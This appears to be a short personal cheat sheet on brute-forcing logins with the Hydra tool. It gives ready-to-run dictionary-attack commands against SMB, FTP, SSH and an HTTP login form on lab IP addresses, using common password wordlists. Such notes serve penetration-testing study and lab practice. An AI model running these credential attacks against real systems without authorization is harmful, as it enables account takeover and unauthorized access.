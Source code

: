 
# Overview
Brute force logins

# Options
- -l/L : username/user File
- -p/P : password/password File

---
# Service Examples

## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`
*lower* case to give string and *upper* case to pass in file
- -l admin : username
- -P /wordlist.txt : pass in wordlist

---
## FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---
## SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

## Http-Form
http-post-form "login page : post data : error check"
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```